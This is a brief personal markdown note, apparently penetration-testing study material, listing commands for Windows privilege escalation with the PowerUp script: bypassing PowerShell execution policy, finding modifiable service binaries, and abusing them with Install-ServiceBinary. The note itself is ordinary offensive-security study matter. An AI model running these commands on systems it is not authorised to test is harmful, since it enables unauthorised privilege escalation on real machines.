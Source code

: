 ```yaml
---
title: PowerShell.ps1
updated: 2025-05-02 07:31:19Z
created: 2025-05-02 07:26:23Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


1. First enable bypass
`powershell -ep bypass`

2. Import script
`. .\PowerUp.ps1`

3. 
`Get-ModifiableServiceFile`


### AbuseFunction
`Install-ServiceBinary -Name '<service>'`